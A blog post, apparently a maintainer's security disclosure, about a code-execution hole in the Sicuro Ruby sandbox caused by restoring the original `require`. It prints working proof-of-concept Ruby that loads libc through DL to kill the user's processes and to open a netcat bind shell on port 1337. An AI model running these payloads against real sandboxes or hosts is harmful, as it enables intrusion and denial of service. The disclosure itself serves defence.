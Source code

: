 ```yaml
---
title: Untrusted Code Execution Bug in Sicuro
tags: sicuro security bug untrusted code execution
layout: post
---
```


[Jens Nockert](http://twitter.com/jensnockert) has exposed a rather major security hole in Sicuro.

Under basically any circumstances, Sicuro can be used to execute untrusted code. The demonstrated technique used by Jens was to terminate all processes that can be terminated by the user who ran the initial `Sicuro#eval` call. I have demonstrated the ability to use it to access a remote shell, but am unsure if it could be used for privilege escalation.

# The main problem

It appears that attempts at making Sicuro more efficient have actually left it wide open to abuse. There was an attempt to make it lazily load trusted components, and that seems to have opened up a bug letting you `require` anything in the stdlib, including DL. DL is used for loading shared objects and calling functions in them.

Please note that it can `require`, _any_ code in the ruby stdlib, and this is just _a single example._

The following is the relevant part of the code for lazily loading trusted components. You can view it in context in [lib/sicuro/base.rb](https://github.com/duckinator/sicuro/blob/761e955fbbba07638d69bc62159199cdf0716a7d/lib/sicuro/base.rb#L254-256), lines 254 through 256.

    # Without Gem we won't require unresolved gems, therefore we restore the original require.
    # This allows us to lazy-require other trusted components from the same $LOAD_PATH.
    ::Kernel.module_eval { alias require gem_original_require }

Following is a tidied up version of the code that exposed the bug.

    require 'dl'
    require 'dl/import'
    
    module Libc
      extend DL::Importer
      dlload '/lib/libc.so.6'
      extern 'int kill(int, int)'
    end
    
    Libc.kill(0, 9)

Calling `Libc.kill(-1, 9)` will terminate _all processes the user who called `Sicuro.eval` can terminate._

Here is similar code that will allow you to execute arbitrary shell code:

    require 'dl'
    require 'dl/import'
    
    module Libc
       extend DL::Importer
       dlload '/lib/libc.so.6'
       extern 'int system(const char*)'
    end
    
    Libc.system('nc -lp 1337 -e /bin/bash &amp;')

Congratulations, you now can run `netcat $IP 1337` to connect. The IP could easily be gained through similar means.

There's a video at the bottom, but it's a bit difficult to read at that scale, so you can [go directly to the video](/assets/sicuro-untrusted-code-execution-bug.ogv).

It may also be possible to escalate privileges using this method.

# The small problem

There's always something hiding, right? That little thing you find when hunting another bug. This one happened to be that `GC`, `Signal`, and `ObjectSpace` were whitelisted. This isn't exactly good.

At the very least, `GC.disable` could make it use too much memory, causing instability, and `Signal.trap` could be used to handle signals used to terminate the process &ndash; and ignore them. I'm not entirely sure what `ObjectSpace` can be used for, but I do not know what it does, so I do not like it being whitelisted. I've also been told `ObjectSpace` is "dangerous." I may look into this later.

`GC`, `Signal`, and `ObjectSpace` will not be whitelisted as of the next release.

# Conclusion

While removing things from the whitelist was trivial, fixing the code execution problem is proving immensely difficult. I am not sure I will be able to fix it and retain all current functionality.

I highly recommend that, once the next version is released, everyone upgrade immediately. This is a major security hole, and allows execution of any untrusted code that can be done through a shared library. This includes calls to `system()` and related functions, as mentioned above.



<video style="width: 100%; max-width: 798px;" controls="controls" src="/assets/sicuro-untrusted-code-execution-bug.ogv"></video>
